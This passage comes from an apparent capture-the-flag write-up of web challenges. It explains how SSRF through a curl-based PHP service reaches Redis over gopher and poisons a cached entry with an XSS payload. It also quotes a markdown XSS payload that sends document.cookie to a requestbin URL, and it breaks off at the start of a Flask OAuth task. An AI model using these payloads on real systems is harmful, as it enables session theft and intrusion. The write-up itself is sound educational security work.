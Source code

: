  And this is the part where **curl** was used (a symfony service created) :
 
 ```php
 
 class Curl
{
    public function fetch(string $url):string {
        $response = shell_exec("curl '".escapeshellcmd($url)."' -s --max-time 6");
        preg_replace('/<title>(.*)<\/title>/i','',$response);
        return (!empty($response)?substr($response,0,780):"");

    }
    public function extractTitle(string $url):string{
        $response=$this->fetch($url);
        $output=array();
        preg_match('/<title>(.*)<\/title>/i',$response,$output);
        return (array_key_exists(1,$output) ? $output[1]:"Unknown Jutsu");

    }
}

```

So we can notice that if we can edit the cached version to have my XSS payload we will bypass htmlspecialchars sanitization and get our javascript code executed. We can achieve this if we chain 
the SSRF to communicate with Redis caching system ( you can know from the configuration files that the system is using redis with the hostname redis).
 
Using gopher protocol we can communicate with all text based protocols including redis by just following this pattern:
 
> gopher://redis:6379/_REDIS Command
 
we need to firstly fetch all keys using **KEYS \*** but you can notice the use of escapeshellcmd that will escape \* so we have to urlencode our payload in order to bypass this.
 
> gopher://redis:6379/_KEYS%20%2a
 
This will fetch all jutsus for us 
 
![RESULT](https://imgur.com/QZr5ljQ.png)

Now we only have to set that key to our XSS payload :

> gopher://redis:6379/_SET%20yLAP6wFwIy%3Ajutsu5598%20%27s%3A81%3A%22%3Cscript%20src%3D%22URL%22%3E%3C%2Fscript%3E%22%3B%27

And Bingo you will get the flag :

**FwordCTF{Y0u_Only_h4vE_T0_cH4in_4nd_Th1nk_w3ll}**

There was an unintended solution that exploited a problem in the markdown parser (I contacted the developer to resolve this issue)

``` ![<img src="#" onerror="src='http://requestbin.net/r/12bfihl1?c='+document.cookie; this.onerror=null"/>](#){onerror=outerHTML=alt} ```

## Useless(3 solves) 500pts ##

![TASK](https://imgur.com/r0HTsK7.png)

In this task we were given a flask project, when we open the website we can notice in the login page the possibility to login using github.After creating an account and signing in we don't see anything special.

![TASK](https://imgur.com/O60WJr5.png)

Let's get a look on the source code, after some digging, this part seems interesting, it's the logic handling the Github Oauth.

```python
```